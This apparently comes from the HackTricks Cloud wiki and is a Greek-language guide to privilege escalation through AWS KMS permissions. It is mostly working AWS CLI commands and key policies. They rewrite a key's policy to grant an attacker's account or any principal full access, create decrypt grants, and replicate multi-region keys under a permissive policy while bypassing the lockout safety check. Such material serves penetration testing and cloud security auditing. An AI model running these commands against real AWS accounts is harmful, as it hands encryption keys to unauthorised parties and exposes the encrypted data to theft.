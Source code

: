 # AWS - KMS Privesc

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στο** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή στο [**telegram group**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## KMS

Για περισσότερες πληροφορίες σχετικά με το KMS ελέγξτε:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### `kms:ListKeys`,`kms:PutKeyPolicy`, (`kms:ListKeyPolicies`, `kms:GetKeyPolicy`)

Με αυτές τις άδειες είναι δυνατόν να **τροποποιήσετε τις άδειες πρόσβασης στο κλειδί** ώστε να μπορεί να χρησιμοποιηθεί από άλλους λογαριασμούς ή ακόμα και από οποιονδήποτε:

{% code overflow="wrap" %}
```bash
aws kms list-keys
aws kms list-key-policies --key-id <id> # Although only 1 max per key
aws kms get-key-policy --key-id <id> --policy-name <policy_name>
# AWS KMS keys can only have 1 policy, so you need to use the same name to overwrite the policy (the name is usually "default")
aws kms put-key-policy --key-id <id> --policy-name <policy_name> --policy file:///tmp/policy.json
```
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "kms:Decrypt",
      "Resource": "*"
    }
  ]
}
```
{% endcode %}

policy.json:
```json
{
"Version" : "2012-10-17",
"Id" : "key-consolepolicy-3",
"Statement" : [
{
"Sid" : "Enable IAM User Permissions",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<origin_account>:root"
},
"Action" : "kms:*",
"Resource" : "*"
},
{
"Sid" : "Allow all use",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<attackers_account>:root"
},
"Action" : [ "kms:*" ],
"Resource" : "*"
}
]
}
```
### `kms:CreateGrant`

Επιτρέπει σε έναν κύριο να χρησιμοποιήσει ένα KMS κλειδί:
```bash
aws kms create-grant \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
--grantee-principal arn:aws:iam::123456789012:user/exampleUser \
--operations Decrypt
```
{% hint style="warning" %}
Μια παραχώρηση μπορεί να επιτρέπει μόνο ορισμένους τύπους λειτουργιών: [https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations](https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations)
{% endhint %}

{% hint style="warning" %}
Σημειώστε ότι μπορεί να χρειαστούν μερικά λεπτά για να **επιτραπεί στον χρήστη να χρησιμοποιήσει το κλειδί μετά την δημιουργία της παραχώρησης**. Μόλις περάσει αυτός ο χρόνος, ο κύριος μπορεί να χρησιμοποιήσει το κλειδί KMS χωρίς να χρειάζεται να καθορίσει οτιδήποτε.\
Ωστόσο, αν χρειάζεται να χρησιμοποιηθεί η παραχώρηση αμέσως [χρησιμοποιήστε ένα token παραχώρησης](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token) (ελέγξτε τον παρακάτω κώδικα).\
Για [**περισσότερες πληροφορίες διαβάστε αυτό**](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token).
{% endhint %}
```bash
# Use the grant token in a request
aws kms generate-data-key \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
–-key-spec AES_256 \
--grant-tokens $token
```
Σημειώστε ότι είναι δυνατόν να καταχωρήσετε τις παραχωρήσεις κλειδιών με:
```bash
aws kms list-grants --key-id <value>
```
### `kms:CreateKey`, `kms:ReplicateKey`

Με αυτές τις άδειες είναι δυνατή η αναπαραγωγή ενός KMS κλειδιού που είναι ενεργοποιημένο για πολλαπλές περιοχές σε μια διαφορετική περιοχή με διαφορετική πολιτική.

Έτσι, ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτό για να αποκτήσει privesc την πρόσβασή του στο κλειδί και να το χρησιμοποιήσει.

{% code overflow="wrap" %}
```bash
aws kms replicate-key --key-id mrk-c10357313a644d69b4b28b88523ef20c --replica-region eu-west-3 --bypass-policy-lockout-safety-check --policy file:///tmp/policy.yml

{
"Version": "2012-10-17",
"Id": "key-consolepolicy-3",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% endcode %}

### `kms:Decrypt`

Αυτή η άδεια επιτρέπει τη χρήση ενός κλειδιού για την αποκρυπτογράφηση κάποιων πληροφοριών.\
Για περισσότερες πληροφορίες, ελέγξτε:

{% content-ref url="../aws-post-exploitation/aws-kms-post-exploitation.md" %}
[aws-kms-post-exploitation.md](../aws-post-exploitation/aws-kms-post-exploitation.md)
{% endcontent-ref %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
